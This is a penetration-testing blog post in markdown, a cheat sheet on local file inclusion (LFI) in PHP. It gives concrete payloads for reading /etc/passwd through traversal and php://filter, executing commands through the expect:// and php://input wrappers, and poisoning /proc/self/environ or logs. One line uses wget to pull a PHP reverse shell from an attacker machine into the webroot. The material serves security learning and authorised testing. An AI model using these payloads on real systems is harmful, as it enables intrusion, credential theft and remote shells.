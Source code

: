 ```yaml
---
layout: blog_item
title: "LFI Cheat Sheet"
date:   2024-05-24 11:29:10
author: Dhruv Ambaliya
description: 'LFI Explained and the techniques to leverage a shell from a local file inclusion vulnerability. How to get a shell from LFI'
categories: [cheat-sheet]
tags:
- LFI
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is an LFI Vulnerability?

LFI stands for **Local File Includes** - it's a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server. Typically this is exploited by abusing dynamic file inclusion mechanisms that don't sanitize user input.

<!--more-->
Scripts that take filenames as parameters without sanitizing the user input are good candidates for LFI vulnerabilities, a good example would be the following PHP script <code>foo.php?file=image.jpg</code> which takes <code>image.jpg</code> as a parameter.  An attacker would simply replace <code>image.jpg</code> and insert a payload. Normally a directory traversal payload is used that escapes the script directory and traverses the filesystem directory structure, exposing sensitive files such as <code>foo.php?file=../../../../../../../etc/passwd</code> or sensitive files within the web application itself. Exposing sensitive information or configuration files containing SQL usernames and passwords.

Note: In some cases, depending on the nature of the LFI vulnerability it's possible to run system executables.

## How to get a Shell from LFI

Below are some techniques I've used in the past to gain a shell on systems with vulnerable LFI scripts exposed.

<hr>

### Path Traversal aka Directory Traversal

As mentioned above Traverse the filesystem directory structure to disclose sensitive information about the system that can help you gain a shell, usernames / passwords etc.

<hr>

### PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

{% highlight bash%}
http://127.0.0.1/fileincl/example1.php?page=expect://ls
{% endhighlight %}


Below is the error received if the PHP expect wrapper is disabled:  

{% highlight php %}
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
{% endhighlight %}

<hr>

### PHP Wrapper php://file

Another PHP wrapper, <code>php://input</code> your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.  

![LFI php://file hackbar](/img/blog/web-for-penetration-testers/lfi-php-file-hackbar-pentesters-labs.png)

Example:
{% highlight bash %}
http://192.168.183.128/fileincl/example1.php?page=php://input
{% endhighlight %}

Post Data payload, try something simple to start with like: <code><? system('uname -a');?></code>

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

{% highlight bash %}
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>
{% endhighlight %}


After uploading execute the reverse shell at <code>http://192.168.183.129/shell.php</code>

<hr>

### PHP Wrapper php://filter

Another PHP wrapper, <code>php://filter</code> in this example the output is encoded using base64, so you'll need to decode the output.

{% highlight bash %}
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
{% endhighlight %}

<hr>

### /proc/self/environ LFI Method

If it's possible to include <code>/proc/self/environ</code> from your vulnerable LFI script, then code execution can be leveraged by manipulating the <code>User Agent</code> parameter with Burp. After the PHP code has been introduced <code>/proc/self/environ</code> can be executed via your vulnerable LFI script.

<hr>

### /proc/self/fd/ LFI Method

Similar to the previous <code>/proc/self/environ</code> method, it's possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the <code>referer</code>.

This method is a little tricky as the proc file that contains the Apache error log information changes under <code>/proc/self/fd/</code> e.g. <code>/proc/self/fd/2</code>, <code>/proc/self/fd/10</code> etc. I'd recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB's [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

<hr>

## fimap LFI Pen Testing Tool

fimap is a [tool used on pen tests](/blog/penetration-testing-tools-cheat-sheet/) that automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as <code>/proc/self/environ</code>. Another tool commonly used by pen testes to automate LFI discovery is Kali's dotdotpwn, which works in a similar way.  

<hr>

### fimap + phpinfo() Exploit

Fimap exploits PHP's temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it's usually possible to get a shell, if you don't know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.


Enjoy.
